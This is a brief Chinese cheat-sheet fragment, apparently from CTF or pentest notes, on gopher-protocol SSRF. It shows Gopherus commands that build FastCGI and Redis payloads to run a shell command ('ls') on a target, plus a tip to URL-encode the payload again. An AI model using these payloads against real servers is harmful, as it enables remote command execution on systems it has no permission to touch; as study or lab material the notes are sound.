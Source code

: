 ## gopher

生成的 payload 再次 url 编码，然后使用

```sh
python2 gopherus.py --exploit fastcgi
参数1： /var/www/html/index.php
参数2cmd: ls
python2 gopherus.py --exploit redis
参数1： php
参数2cmd: ls
```
